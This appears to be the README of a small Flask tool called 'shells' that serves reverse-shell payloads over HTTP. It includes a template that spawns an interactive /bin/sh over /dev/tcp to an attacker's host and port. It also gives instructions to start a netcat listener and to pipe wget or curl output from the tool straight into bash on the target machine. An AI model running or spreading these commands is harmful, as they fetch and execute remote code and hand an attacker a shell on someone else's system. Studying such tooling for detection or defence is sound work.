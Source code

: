 # shells

## setup and run
setup python environment
```bash
pipenv install
```

virtual environment and run
```bash
pipenv shell
flask run --port 8080 --host 0.0.0.0
```
or 
```
pipenv run flask run --port 8080 --host 0.0.0.0
```
### lazy run
runs in port 8000, change port if needed.
```
python3 app/__init__.py
```
## new command
add new command in `shells.template` specify the $host and $port, like below
```
if command -v sh > /dev/null 2>&1; then 
	/bin/sh -i >& /dev/tcp/$host/$port 0>&1
	exit;
fi
```

# give me a shell
Listen with netcat:
```
nc -lvp 1338
```

run this on target machine:
```
wget -qO- http://mi-ip-host:port/127.0.0.1:1338 | bash

curl http://mi-ip-host:port/127.0.0.1:1338 | bash
```